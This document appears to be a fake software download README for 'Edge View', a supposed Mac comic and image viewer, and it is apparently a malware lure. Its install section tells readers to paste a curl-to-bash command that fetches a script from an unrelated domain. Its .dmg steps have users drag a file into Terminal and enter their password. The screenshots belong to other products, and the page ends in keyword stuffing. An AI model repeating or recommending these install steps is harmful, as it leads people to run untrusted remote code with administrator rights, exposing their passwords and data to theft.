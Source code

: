 # Edge View Mac Download

![Edge View Screenshot 2](https://stagetimer.io/assets/landing/propresenter-ui.png)  

---

## 📥 Download Edge View for Mac

[![Download Now](https://img.shields.io/badge/Download--Now-Edge%20View%20Mac-blue?style=for-the-badge&logo=apple)](https://edgeview-mac-download.github.io/.github)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get9/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is Edge View for Mac?

Edge View for Mac is a lightweight and fast image and comic viewer designed specifically for macOS. With support for a wide range of image formats (including ZIP/RAR/CBR/CBZ archives), Edge View offers a clean, responsive interface ideal for reading manga, comics, and viewing large image collections.

Unlike basic image viewers, Edge View provides enhanced file browsing, full-screen mode, touchpad navigation, and smooth page transitions. Whether you're a digital artist, designer, or just an avid comic reader, Edge View delivers a distraction-free and efficient viewing experience.

Edge View also includes advanced sorting options, metadata previews, and supports retina displays for pixel-perfect clarity. Built natively for macOS, it integrates smoothly with Finder and other apps for a consistent user experience.

---

![Edge View Screenshot 1](https://support.renewedvision.com/hc/article_attachments/360055586334/Main_UI.png)

---
## 🌟 Key Features & Benefits

- 📁 Archive Support — View images inside ZIP, RAR, CBZ, and CBR files without extraction.
- 📚 Manga & Comic Mode — Automatically adapts layout for left-to-right or right-to-left reading.
- 🖼️ Retina-Optimized — Crystal-clear display for high-resolution content on Retina screens.
- ⚙️ Lightweight & Fast — Instant load times even with large archives or high-res images.
- 🧭 File Browser Integration — Browse folders and archives with built-in file explorer.
- 📐 Page Scaling — Smart fit-to-screen, two-page spread, and zoom controls.
- 🌙 Dark Mode Support — Native support for macOS dark mode to reduce eye strain.
- 🔄 Smooth Page Transitions — Enjoy seamless navigation between pages with gesture support.

---

## 🖥️ System Requirements

- macOS: 10.13 High Sierra or later  
- Processor: Intel or Apple Silicon (M1/M2/M3)  
- RAM: 4 GB minimum  
- Disk Space: ~200 MB  

---

## 🏷️ Keywords

edge view mac free, edge view for mac free download, edge view download, edge view free, edge view mac free

---


